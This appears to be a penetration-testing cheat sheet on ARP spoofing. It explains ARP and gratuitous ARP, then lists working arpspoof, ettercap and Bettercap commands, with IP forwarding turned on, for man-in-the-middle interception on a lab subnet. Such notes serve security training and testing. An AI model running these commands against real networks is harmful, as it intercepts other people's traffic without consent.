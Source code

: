 # ARP Spoofing

## ARP

• An ARP request message should be placed in a frame and broadcast to all computers on the network&#x20;

• Each computer receives the request and examines the IP address&#x20;

• The computer mentioned in the request sends a response; all other computers process and discard the request without sending a response

![](<../../.gitbook/assets/image (293) (1).png>)

## Gratuitous ARP

• Gratuitous ARP is used by hosts to “announce” their IP address to the local network and avoid duplicate IP addresses on the network; routers and other network hardware may use cache information gained from gratuitous ARPs&#x20;

• Gratuitous ARP is a broadcast packet (like an ARP request)

![](<../../.gitbook/assets/image (277).png>)

HOST W: Hey everyone I’m host W and my IP Address is 1.2.3.4 and my MAC address is 12:34:56:78:9A:BC

## ARP Spoofing

### arpspoof

```
arpspoof -t [target] -r [router]
```

example:

#### 1. Enable ip forwarding first

```
echo 1 > /proc/sys/net/ipv4/ip_forward
```

#### 2. tell 172.16.5.1 that if they need to communicate with 172.16.5.23 they must pass from the attacker system

```
arpspoof -i tap0 -t 172.16.5.1 -r 172.16.5.23 
```

#### now, in a separate terminal

#### 3. tell 172.16.5.23 that if the need to communicate with 172.16.5.1 they must pass from the pentester system

```
arpspoof -i tap0 -t 172.16.5.23 -r 172.16.5.1
```

### Ettercap

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

### Bettercap

#### specify t of IP addresses, comma=separated

```
set arp.spoof.targets IPs
```

#### turn ARP spoof on/off

```
arp.spoof on / off
```

When the arp.spoof module is started, Bettercap will automatically configure the OS features for the MitM attack (such as turning on IP forwarding on Linux systems)
